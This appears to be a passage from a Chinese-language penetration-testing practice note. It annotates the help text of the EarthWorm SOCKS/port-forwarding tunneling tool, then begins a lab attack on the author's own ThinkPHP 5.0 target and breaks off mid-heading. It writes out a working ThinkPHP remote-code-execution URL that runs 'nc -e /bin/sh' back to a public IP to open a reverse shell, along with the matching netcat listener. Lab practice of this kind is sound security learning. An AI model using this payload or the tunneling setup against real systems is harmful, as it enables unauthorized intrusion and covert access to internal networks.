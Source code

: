 
# - -help 
```
VERSION : free 1.0 
 ./xxx ([-options] [values])*
 options :
 Eg: ./xxx -s ssocksd -h 
 -s state setup the function.You can pick one from the 
 following options:
 ssocksd , rcsocks , rssocks , 
 lcx_listen , lcx_tran , lcx_slave
 # -s 选项选择连接模式，除了lcx的三种模式还有ssocksd正向SOCKS V5服务器、（rcsocks(公网监听转发主机)、rssocks（目标主机））反弹SOCKS V5服务器。
 -l listenport open a port for the service startup.#监听端口
 -d refhost set the reflection host address.#设置反射主机地址（公网IP）
 -e refport set the reflection port.#设置转发到的端口
 -f connhost set the connect host address .#设置连接主机地址（参考lcx的h2）要把这台内网主机的流量转发到公网上
 -g connport set the connect port.#设置要转发出去的端口（参考lcx的p2）
 -h help show the help text, By adding the -s parameter,
 you can also see the more detailed help.# 可以使用 ./ew -s [ssocksd|rcsocks|rssocks|lcx_listen|lcx_tran|lcx_slave]等获取关于具体模式的帮助
 -a about show the about pages # 显示关于
 -v version show the version. #显示版本
 -t usectime set the milliseconds for timeout. The default 
 value is 1000 #忙猜设置超时时间，默认1000  英语不好也可以猜
 ......
```

# 参考教程敲一遍（做个小模拟渗透）
**注：** 
- 攻击机位于我的笔记本上的kali nat联网 ip：192.168.153.133
- 被攻击的是校内我搭建的靶机 ip:10.203.87.64  环境：tp5.0
- 公网主机：45.\*.\*.190
## 做个小模拟渗透
利用命令执行弹shell
  
这次用NC弹shell
http://10.203.87.64/tp5/public/index.php?s=/index/\think\app/invokefunction&function=call_user_func_array&vars[0]=system&vars[1][]=nc%20-e%20/bin/sh%2045.76.101.190%201235


公网服务器上面监听：
nc -l -p 1235


## 使用lcx相关的功能
### 将

